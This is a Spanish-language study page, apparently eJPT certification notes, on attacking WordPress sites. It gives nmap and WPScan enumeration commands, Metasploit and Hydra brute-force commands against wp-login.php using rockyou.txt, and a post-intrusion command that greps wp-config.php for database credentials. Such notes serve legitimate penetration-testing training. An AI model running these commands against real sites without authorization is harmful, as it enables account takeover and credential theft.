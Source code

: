 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```


# Wordpress

WordPress es un sistema de gestión de contenido (CMS) de código abierto, gratuito y muy popular que permite crear y gestionar sitios web. Se utiliza principalmente para construir blogs, sitios web corporativos, tiendas en línea, y mucho más. Su facilidad de uso y la gran cantidad de temas y plugins disponibles lo convierten en una herramienta versátil y accesible para usuarios con diferentes niveles de experiencia.

---

## 🕵️Identificación de la versión de WordPress y sus componentes

```bash
nmap -sV --script http-wordpress-enum <url> # Detección de la versión de WordPress y plugins.
nmap -sV --script "http-wordpress* and not http-wordpress-brute" <url> # Escaneo de vulnerabilidades en WordPress.
nmap -sV --script http-wordpress-users <url> # Enumeración de usuarios de WordPress.
nmap --script=http-wordpress-enum --script-args http-wordpress-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar el uso de WordPress.
nmap --script=http-vuln* -p 80,443 <url> # Detección de vulnerabilidades específicas en WordPress y sus plugins.
```

También podemos intentar enumerar plugins con la herramienta curl:

```bash
curl -s -X GET "http://192.168.100.50" | grep -oP 'plugins/\K.*' | sort -u
```

## Checklist de WordPress ✔️

Para comprobar si existe un panel de inicio de sesión:


- url/wp-admin/login.php
- url/wp-admin/wp-login.php
- url/wp-login.php

Otros directorios clave a revisar en cualquier sitio web:


- url/robots.txt
- url/sitemap.xml
- url/CHANGELOG.txt


Cuando hayamos logrado la intrusión: 

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

 Si al acceder al servicio web notamos que no carga correctamente, es posible que se esté utilizando Virtual Hosting. En este caso, deberemos añadir el dominio al que apunta realmente en nuestro archivo /etc/hosts. Para ello, agregamos la IP de la web junto con el dominio correspondiente, por ejemplo: 10.0.0.10 wordpress.htb.

---

## 🛠️ Escaneo básico de WordPress con Metasploit

```bash
use auxiliary/scanner/http/wordpress_version # Cargar el módulo.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🕵️ Enumeración de usuarios en WordPress

```bash
use auxiliary/scanner/http/wordpress_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

## 🔑 Ataque de fuerza bruta con Metasploit

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
exploit
```

## 🛠️ Otras herramientas para auditar WordPress

### WPScan

WPScan es una herramienta especializada en la enumeración y auditoría de sitios basados en WordPress. Permite detectar vulnerabilidades, usuarios, plugins y temas instalados.

Ejemplo de uso:

```bash
wpscan --url <url_wordpress> # Análisis básico de WordPress.
wpscan --url <url_wordpress> -e vp,u # Enumeración de plugins vulnerables y usuarios.
wpscan --url <url_wordpress> -e t # Enumeración de temas instalados.
```

💡 Una buena práctica durante la auditoría de WordPress es revisar el código fuente de la página. Allí podemos encontrar rutas como /uploads, analizar si hay directory listing, identificar temas, plugins y posibles filtraciones de información (information leakage), vhosts, entre otros.

💡 También es recomendable examinar publicaciones de blogs u otras secciones del sitio web en busca de nombres de usuario que puedan ser utilizados en ataques de fuerza bruta.

Si encontramos nombres de usuario potenciales, debemos almacenarlos en un archivo .txt para su posterior análisis o uso como wordlist.

## 🔑 Fuerza bruta en el panel de inicio de sesión de WordPress

```bash
wpscan --url <url/wp-login.php> -U <username> -P /usr/share/wordlists/rockyou.txt # Uso de diccionario de contraseñas.
wpscan --url <url/wp-login.php> --passwords <ruta_diccionario.txt> --usernames <ruta_usuarios.txt> # Ataque con múltiples usuarios.
```

Ataque de fuerza bruta con Hydra

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```


Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

---


<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>
